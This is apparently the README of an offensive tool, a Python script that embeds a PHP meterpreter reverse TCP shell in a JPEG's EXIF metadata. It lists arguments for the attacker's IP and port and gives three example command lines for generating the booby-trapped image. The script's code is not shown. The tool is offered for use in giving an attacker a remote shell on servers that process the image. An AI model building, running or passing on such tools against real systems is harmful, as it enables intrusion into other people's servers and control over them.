 # PHP Reverse Shell Image Generator

### Generate PHP Reverse Shell Image (JPEG)  

A small Python3 script that create a meterpreter php reverse TCP shell.  
Requires meterpreter listener for payload: payload/php/meterpreter/reverse_tcp


### Usage  

#### Required Arguments  
**\-i,  \-\-image**           Image File to Convert (Required)  
**\-a,  \-\-ipaddr**          Attacker IP (Required)  

#### Optional Argument  
**\-p,  \-\-port**            Attacker Port [default:21]  
**\-o,  \-\-outfilename**    Use a Different Name to Original Image  
**\-h,  \-\-help**            Show Help  


#### Syntax  
python3 PHPReverseShell2ImageExif.py \-\-image="image.jpeg" \-\-ipaddr"127.0.0.1" \-\-port"21" \-\-outfilename"newimage.jpg"  
python3 PHPReverseShell2ImageExif.py \-\-image="image.jpeg" \-\-ipaddr"127.0.0.1" \-\-port"21"  
python3 PHPReverseShell2ImageExif.py \-\-image="image.jpeg" \-\-ipaddr"127.0.0.1"  
